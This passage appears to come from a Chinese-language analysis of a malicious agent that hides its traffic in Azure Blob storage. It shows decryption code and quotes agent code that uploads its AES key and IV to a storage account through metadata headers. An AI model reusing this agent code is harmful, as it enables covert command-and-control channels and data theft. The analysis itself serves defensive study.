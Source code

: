 ```js
    if (Buffer.isBuffer(encryptedData)) {
      decrypted = Buffer.concat([decipher.update(encryptedData), decipher.final()])
    } else {
      decrypted = decipher.update(encryptedData, 'hex', 'utf8')
      decrypted += decipher.final('utf8')
    }
    return decrypted
  } catch (error) {
    console.log(error)
    return null
  }
}

console.log(await func_Decrypt(await func_Base64_Decode(DATA), KEY, IV))
```

key 和 iv 可以从一堆带着 metadata 的请求头里面找到

```js
// agent/main.js
response = await Blob_Set_Metadata(global.agent.metaContainer, global.agent.agentid, {
  stat: Date.now(),
  signature: await func_Base64_Encode(JSON.stringify(global.agent.container.key.key)),
  hash: await func_Base64_Encode(JSON.stringify(global.agent.container.key.iv)),
  link: global.agent.agentid,
})

async function Blob_Set_Metadata(container, blob, metadata) {
  const query = `/${container}/${blob}?comp=metadata&${global.agent.sasToken}`

  const headers = {
    'x-ms-version': '2022-11-02',
    'x-ms-date': new Date().toUTCString(),
    'Content-Length': 0,
  }

  // Add metadata headers
  for (const [key, value] of Object.entries(metadata)) {
    headers[`x-ms-meta-${key.toLowerCase()}`] = value
  }

  const options = {
    method: 'PUT',
    hostname: global.agent.storageAccount,
    path: query,
    port: 443,
    headers: headers,
  }

  return await func_Web_Request(options)
}
```
